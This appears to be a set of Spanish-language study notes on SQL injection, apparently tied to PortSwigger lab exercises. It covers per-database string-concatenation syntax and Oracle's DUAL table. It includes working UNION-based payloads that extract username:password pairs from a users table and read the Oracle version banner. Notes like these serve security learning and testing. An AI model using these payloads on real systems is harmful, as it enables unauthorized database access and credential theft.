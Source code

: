 
## String concatenation
multiples forma de hacer una concatenacion si es que  no te deja

https://portswigger.net/web-security/sql-injection/cheat-sheet

```
Oracle

`'foo'||'bar'`

Microsoft

`'foo'+'bar'`

PostgreSQL

`'foo'||'bar'`

MySQL

`'foo' 'bar'` [Note the space between the two strings]  
`CONCAT('foo','bar')`

***Agarrando con los ejmeplos anteriores aplicaremos una concatenacion***

'union select 1,2,username||':'||password,4,5 from users;-- -
```

## SQL Injection attack, querying the database type and version on Oracle

La tabla DUAL es una **tabla especial de una sola columna presente de manera predeterminada en todas las instalaciones de bases de datos de Oracle**. Se utiliza para seleccionar una seudocolumna como SYSDATE o USER. La tabla tiene una sola columna VARCHAR2(1) llamada DUMMY que tiene un valor de 'X'.
La sintaxis [SQL](https://es.wikipedia.org/wiki/SQL "SQL") de Oracle requiere la cláusula FROM pero algunas consultas no requieren ninguna tabla; DUAL puede ser utilizada en estos casos.

```
SELECT 1+1
FROM DUAL;

SELECT 1 
FROM DUAL;

SELECT USER 
FROM DUAL;

SELECT SYSDATE
FROM DUAL;

'union select 1,2,3,4,5 from dual-- -

'union select 1,2,banner,4,5 from v$version-- -

```



